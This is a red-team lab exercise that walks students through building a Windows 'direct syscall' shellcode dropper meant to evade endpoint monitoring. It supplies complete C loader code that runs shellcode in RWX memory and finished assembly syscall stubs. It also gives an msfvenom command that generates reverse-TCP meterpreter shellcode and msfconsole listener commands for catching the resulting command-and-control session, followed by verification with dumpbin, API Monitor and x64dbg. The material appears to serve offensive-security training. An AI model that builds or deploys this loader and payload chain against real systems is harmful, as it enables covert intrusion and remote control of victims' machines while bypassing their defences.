 ## LAB Exercise 4:Direct Syscall Dropper
In this exercise we will make the second modification to the reference dropper, create the direct syscall dropper and implement the required syscalls or syscall stubs from each of the four native functions directly into the assembly (dropper). We call this the Low Level Direct Syscall Dropper, or LLDSC for short. 
![low_level_dropper_principal](https://user-images.githubusercontent.com/50073731/235438881-e4af349a-0109-4d8e-80e2-730915c927f6.png)

## Exercise 4 Tasks:
### Creating the Direct Syscall Dropper 
1. Download the LLDSC Visual Studio POC from the Code section of this chapter.
2. Most of the code is already implemented in the POC. But take a look at the .asm file and add the missing assembler code for the remaining three native APIs following the scheme of the already implemented code for the NTallocateVirtualMemory native API. 
3. Create x64 calc shellcode with msfvenom, copy it to the POC, compile it and run it for the first time. Check that the calc spawns correctly. 
4. Create a staged x64 meterpreter shellcode with msfvenom and copy it to the POC or replace the calc shellcode with it.  
5. Compile the POC as an x64 release. 
6. Create and run a staged x64 meterpreter listener using msfconsole.
7. Run your compiled .exe and check that a stable command and control channel opens. 
### Analysing the Direct Syscall Dropper
8. Use the Visual Studio **dumpbin** tool to analyse the dropper. Is the result what you expected?  
9. Use the **API Monitor** tool to analyse the compiled low level dropper in the context of the four APIs used. Is the result what you expected? 
10. Use the **x64dbg** debugger to analyse the compiled low level dropper: from which module and location are the syscalls of the four APIs used executed? Is the result what you expected? 
11. Use Process Hacker to analyse the call stack of the direct syscall dropper.


## Visual Studio
To create the Low-Level-Dropper project, follow the procedure of the High-Level-Dropper exercise, take a look to follow the necessary steps.
The code works as follows, shellcode declaration is the same as before in both droppers.
<details>

```
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```
</details>

### Header File
Unlike the medium level dropper (NTAPIs), we no longer ask ntdll.dll for the function definition of the native APIs we are using. But we still want to use the native functions, so we need to define or implement the structure for all four native functions in a header file. In this case the header file is called syscalls.h and must also be included in the main code. All the structures are already implemented in the direct syscall dropper POC. If you want to check them manually, you should be able to find them in the Microsoft documentation, e.g. for [NtWriteVirtualMemory](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntallocatevirtualmemory).

### Assembly Instructions
Furthermore, we do not want to ask ntdll.dll for the syscall stub of the native functions we use, instead we want to manually implement the necessary assembly code into the assembly itself. As mentioned above, instead of using a tool to create the assembly instructions, we will manually implement the necessary code in our direct syscall POC for the best learning experience. To do this, you will find a file called ``syscalls.asm`` in the direct syscall dropper POC which contains part of the assembly code. The code needed to implement the syscall stub in the syscalls.asm file looks like this and can be used as a template to add the syscall stub for the other three missing native APIs ``NtWriteVirtualMemory``, ``NtCreateThreadEx``` and ``NtWaitForSingleObject``. It is one of your tasks to complete the missing assembly code.

<details>
<summary>Code</summary>

```asm
.CODE  ; Start the code section
; Procedure for the NtAllocateVirtualMemory syscall
NtAllocateVirtualMemory PROC
    mov r10, rcx                                    ; Move the contents of rcx to r10. This is necessary because the syscall instruction in 64-bit Windows expects the parameters to be in the r10 and rdx registers.
    mov eax, 18h                                    ; Move the syscall number into the eax register.
    syscall                                         ; Execute syscall.
    ret                                             ; Return from the procedure.
NtAllocateVirtualMemory ENDP     
END  ; End of the module    
```
</details>

If you stuck, here you can find the solution for the full code which should be copied into the syscalls.asm file

<details>
    <summary>Code</summary>    
```asm
.CODE  ; Start the code section

; Procedure for the NtAllocateVirtualMemory syscall
NtAllocateVirtualMemory PROC
    mov r10, rcx                                    ; Move the contents of rcx to r10. This is necessary because the syscall instruction in 64-bit Windows expects the parameters to be in the r10 and rdx registers.
    mov eax, 18h                                    ; Move the syscall number into the eax register.
    syscall                                         ; Execute syscall.
    ret                                             ; Return from the procedure.
NtAllocateVirtualMemory ENDP                     	; End of the procedure.


; Similar procedures for NtWriteVirtualMemory syscalls
NtWriteVirtualMemory PROC
    mov r10, rcx
    mov eax, 3AH
    syscall
    ret
NtWriteVirtualMemory ENDP


; Similar procedures for NtCreateThreadEx syscalls
NtCreateThreadEx PROC
    mov r10, rcx
    mov eax, 0C2h
    syscall
    ret
NtCreateThreadEx ENDP


; Similar procedures for NtWaitForSingleObject syscalls
NtWaitForSingleObject PROC
    mov r10, rcx
    mov eax, 4
    syscall
    ret
NtWaitForSingleObject ENDP

END  ; End of the module
```
</p>
</details>



But this time we do not want to run/import the syscalls from ntdll.dll and instead want to implement the functionality directly in the Low-Level-Dropper itself, we have to import the generated files/code from SysWhispers 3 into our Low-Level-Dropper. The syscalls.h provides the structure of the used native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject and the syscalls-asm.x64.asm contains the corresponding syscalls or syscall stubs. This allows the Low-Level-Dropper to execute syscalls directly without the transition from dropper.exe -> kernel32.dll -> ntdll.dll. Practically, we need to implement the generated code with SysWhispers 3 as follows: 

1. Copy all three files we created with SysWhispers 3 into the directory of your Low-Level-Dropper Visual Studio project.
<details>
 
<p align="center">
<img width="697" alt="image" src="https://user-images.githubusercontent.com/50073731/235456064-2b124b99-6936-4a96-a878-2e8dd8cdb460.png">
</details>

    
2. Add the syscalls.h file to your Low-Level-Dropper project as a header file. 
<details>
 
<p align="center">
<img width="1269" alt="image" src="https://user-images.githubusercontent.com/50073731/235456468-ffd08548-6f71-4904-821c-6d88580fa3fb.png">
<img width="599" alt="image" src="https://user-images.githubusercontent.com/50073731/235456549-4385fe3d-4a77-49d7-a153-19e0c5e54cf8.png">
</details>

3. We also need to include the header syscalls.h as a library in our code. 
Customisations.
<details>
 
<p align="center">
<img width="1285" alt="image" src="https://user-images.githubusercontent.com/50073731/235458107-e86178b5-f4f2-4110-a415-d93a08f61373.png">
</details>

4. Add the syscalls-asm.x64.asm file as a resource file. 
<details>
 
<p align="center">
<img width="1268" alt="image" src="https://user-images.githubusercontent.com/50073731/235456751-b44a0786-5225-46d7-9ec3-032a6b8ab36c.png">
<img width="590" alt="image" src="https://user-images.githubusercontent.com/50073731/235456831-138e449f-11ae-4cc6-9483-4073eed67c49.png">
</details>

5. Add the file syscall.c as source file
<details>
 
<p align="center">
<img width="1263" alt="image" src="https://user-images.githubusercontent.com/50073731/235457023-473375d1-591d-4479-b47c-2918af056ff2.png">
<img width="598" alt="image" src="https://user-images.githubusercontent.com/50073731/235457085-bf6775f0-c370-4bb0-b883-db99123b06ca.png">
</details>

6. To use the assembly code from the syscalls-asm.x64.asm file in Visual Studio, you must enable the Microsoft Macro Assembler (.masm) option in Build Dependencies/Build. Customisations.
<details>
 
<p align="center">
<img width="1278" alt="image" src="https://user-images.githubusercontent.com/50073731/235457590-371f3519-b7cf-483d-9c1c-6bfd6368be42.png">
<img width="590" alt="image" src="https://user-images.githubusercontent.com/50073731/235457782-780d2136-30d7-4e87-a022-687ed2557b33.png">
</details>

7. Then we need to set the Item Type of the syscalls-asm.x64.asm file to Microsoft Macro Assembler, otherwise we will get an unresolved symbol error in the context of the native APIs used in our Low-Level-Dropper. 
<details>
 
<p align="center">
<img width="950" alt="image" src="https://user-images.githubusercontent.com/50073731/235471947-4bcd23fc-5093-4f4d-adc8-eb3ef36f139f.png">    
<img width="1237" alt="image" src="https://user-images.githubusercontent.com/50073731/235458968-e330799e-51ff-46bf-97ab-c7d3be7ea079.png">
<img width="778" alt="image" src="https://user-images.githubusercontent.com/50073731/235459219-4387dc48-56f8-481c-b978-1b786843a836.png">
    
</details>

Here is the **complete code**, and you can copy and paste this code into your **Low-Level-Dropper** project in Visual Studio.
You can also download the complete **Low-Level-Dropper Visual Studio project** in the **Code Example section** of this repository.
<details>
    
```
#include <iostream>
#include <Windows.h>
#include "syscalls.h"

int main() {
    // Insert Meterpreter shellcode
    unsigned char code[] = "\xfc\x48\x83...";

    // Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = NULL;
    SIZE_T size = sizeof(code);
    NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region
    SIZE_T bytesWritten;
    NtWriteVirtualMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Execute the shellcode in memory using a new thread
    // Pass the address of the shellcode as the thread function (StartRoutine) and its parameter (Argument)
    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), exec, exec, FALSE, 0, 0, 0, NULL);

    // Wait for the end of the thread to ensure the shellcode execution is complete
    NtWaitForSingleObject(hThread, FALSE, NULL);


    // Return 0 as the main function exit code
    return 0;
}
```
</details>

    
    
    
## Meterpreter Shellcode
Again, we will create our meterpreter shellcode with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
<details>
    
 **kali>**   
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="696" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>

The shellcode can then be copied into the Low-Level-Dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.<p align="center">
<img width="479" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>
</details>    


## MSF-Listener
Before we test the functionality of our Low-Level-Dropper, we need to create a listener within msfconsole.
<details>
    
**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="510" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>
</details>
 
    
Once the listener has been successfully started, you can run your compiled Low-Level-Dropper.exe. If all goes well, you should see an incoming command and control session. 
<details>
    
<p align="center">
<img width="674" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>
</details>
        

    
## Low-Level-Dropper analysis: dumpbin 
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via kernel32.dll. The following command can be used to check the imports. Which results do you expect?
<details>    
    
**cmd>**
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports low_level.exe
```
</details>    

<details>
    <summary>Solution</summary>  
    
**No imports** from the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread, and WaitForSingleObject from kernel32.dll. This was expected and is correct.
<p align="center">
<img width="1023" alt="image" src="https://user-images.githubusercontent.com/50073731/235473764-c85ccc73-a1cb-403d-8162-172146375d96.png">
</p>
</details>   
    
    
## Low-Level-Dropper analysis: API-Monitor
For a correct check, it is necessary to filter to the correct APIs. Only by providing the correct Windows APIs and the corresponding native APIs, we can be sure that there are no more transitions in the context of the used APIs in our Medium-Level-Dropper. We filter on the following API calls:
- VirtualAlloc
- NtAllocateVirtualMemory
- WriteProcessMemory
- NtWriteVirtualMemory
- CreateThread
- NtCreateThreadEx
- WaitForSingleObject
- NtWaitForSingleObject

<details>
    <summary>Solution</summary>    
If everything was done correctly, you could see that the four used Windows APIs and their native APIs are no longer imported from kernel32.dll and ntdll.dll to the Low-Level-Dropper.exe.
This result was expected and is correct because our Low-Level-Dropper has directly implemented the necessary syscalls or syscall stubs for the respective native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject.
<p align="center">
<img width="595" alt="image" src="https://user-images.githubusercontent.com/50073731/235480936-df805736-aad8-44a7-8bec-f8563735d1d2.png">
</p>
</details>    

## Low-Level-Dropper analysis: x64dbg 
Using x64dbg we want to validate from which module and location the respective system calls are executed in the context of the used Windows APIs -> native APIs?
Remember, now we have not implemented system calls or system call stubs directly in the dropper. What results would you expect?
<details>
    <summary>Solution</summary>
    
1. Open or load your Low-Level-Dropper.exe into x64dbg
2. Go to the Symbols tab, in the **left pane** in the **Modules column** select or highlight your **Low-Level-Dropper.exe**, in the **right pane** in the **Symbols column** filter for the first native API **NtAllocateVirtualMemory**, right click and **"Follow in Dissassembler"**. To validate the other three native APIs, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject, just **repeat this procedure**. Compared to the High-Level-Dropper and the Medium-Level-Dropper we can see that the symbols for the used native APIs are implemented directly in the dropper itself and not imported from the ntdll.dll.
    
<p align="center">    
<img width="979" alt="image" src="https://user-images.githubusercontent.com/50073731/235481553-012459f5-1284-44ed-b3ed-2b04bfcccd3b.png">
</p>
    
As expected, we can observe that the corresponding system calls for the native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx, NtWaitForSingleObject are no longer 
imported from the .text section in the ntdll.dll module. Instead the syscalls or syscalls stubs are directly implemtented into the .text section of the Low-Level-Dropper itself.
    
<p align="center">    
<img width="990" alt="image" src="https://user-images.githubusercontent.com/50073731/235482389-35cd8c12-593e-4089-b082-8eaf2ba6636a.png"></p>    
</details>


## Summary:
- Made transition from medium to low level or from Native APIs to direct syscalls
- Dropper imports no longer Windows APIs from kernel32.dll
- Dropper imports no longer Native APIs from ntdll.dll
- Syscalls or syscall stubs are "implemented" directly into .text section of .exe
